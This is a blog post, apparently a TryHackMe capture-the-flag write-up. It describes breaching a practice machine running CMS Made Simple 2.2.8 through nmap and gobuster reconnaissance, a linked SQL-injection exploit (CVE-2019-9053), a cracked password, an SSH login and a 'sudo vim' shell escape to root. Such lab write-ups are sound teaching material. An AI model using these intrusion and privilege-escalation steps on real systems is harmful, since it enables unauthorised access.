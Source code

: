 ```yaml
---
layout: post
title: "CVE-2019-9053"
author: "Nicholas Coleman"
date: 2025-04-11
tags: tryhackme
---
```


## Breaching a Vulnerable Site

I begin by scanning the IP with nmap: 

`nmap -sC -sV -oA ctf1/scan 10.10.75.135`

Results:
```  
\# Nmap 7.95 scan initiated Thu Apr 10 16:29:02 2025 as: /usr/lib/nmap/nmap \--privileged \-sC \-sV \-oA ctf1/scan 10.10.75.135  
Nmap scan report for 10.10.75.135  
Host is up (0.12s latency).  
Not shown: 997 filtered tcp ports (no-response)  
PORT 	STATE SERVICE VERSION  
21/tcp   open  ftp 	vsftpd 3.0.3  
| ftp-syst:  
|   STAT:  
| FTP server status:  
|  	Connected to ::ffff:10.6.25.18  
|  	Logged in as ftp  
|  	TYPE: ASCII  
|  	No session bandwidth limit  
|  	Session timeout in seconds is 300  
|  	Control connection is plain text  
|  	Data connections will be plain text  
|  	At session startup, client count was 2  
|  	vsFTPd 3.0.3 \- secure, fast, stable  
|\_End of status  
| ftp-anon: Anonymous FTP login allowed (FTP code 230\)  
|\_Can't get directory listing: TIMEOUT  
80/tcp   open  http	Apache httpd 2.4.18 ((Ubuntu))  
|\_http-server-header: Apache/2.4.18 (Ubuntu)  
| http-robots.txt: 2 disallowed entries  
|\_/ /openemr-5\_0\_1\_3  
|\_http-title: Apache2 Ubuntu Default Page: It works  
2222/tcp open  ssh 	OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:  
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)  
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)  
|\_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux\_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
\# Nmap done at Thu Apr 10 16:29:56 2025 \-- 1 IP address (1 host up) scanned in 53.75 seconds  
```

From the nmap scan, we can see that there are 3 ports open: **21, 80, and 2222**. All of these can be useful for us when trying to think of ways to breach the system. The attack surface of this system is nice to work with - especially when one of the vectors is exploiting the insecure design.

The web server this machine is hosting redirects to the default Apache webpage. But this does not *necessarily* indicate the site is empty, so I decided to look deeper with gobuster to see if there was anything else hidden. **Gobuster** is really handy and easy to use, not to mention - a very fast tool.

Using this command:

`gobuster dir -u 10.10.75.135 -w directory-list-2.3-medium.txt -t 100`

Gobuster shows me that there is indeed another page with the path: `/simple`.

Navigating to /simple brings me to a website called CMS Made Simple. The version is `2.2.8`. The version of the website out in the open like this makes my job a lot easier when trying to find exploits that will work.

![CMS](/security.github.io/images/simple/cms_simple.png)

After a quick Google search, I was able to find that this version of CMS Made Simple is vulnerable to a SQL injection exploit (**CVE-2019-9053**).

https://www.exploit-db.com/exploits/46635

This SQLi Python script extracts the hashed password and cracks it, enabling access to the target system. The results were:

```  
Username: mitch  
Email: admin@admin.com  
Password: 0c01f4468bd75d7a84c7eb73846e8d96  
Cracked Password: secret  
```

Now I am able to ssh into mitch's computer using: `ssh mitch@10.10.75.135 -p 2222` with the password:

![SSH](/security.github.io/images/simple/SSH.png)

Once inside, the User flag: **user.txt** is readily available for me to capture. Easy! 

My next order of business is to see what sudo commands the users here can run. Using `sudo -l`, I am able to see that Mitch is able to run `/usr/bin/vim` as a root user without a password. 

After looking online, I found out that Vim can be used to *break out of restricted environments by spawning an interactive system shell*. This is a huge vulnerability and gives us the ability to escalate our privileges to become the root user - with this simple command: `sudo vim -c ':!/bin/sh'`.

![sudo vim](/security.github.io/images/simple/sudovim.png)

There you go - I have achieved privilege escalation. After navigating to the root directory, I was able to finally find the root flag in **root.txt**:

![final](/security.github.io/images/simple/final.png)

Whoever is running this website needs to *seriously* work on the security!
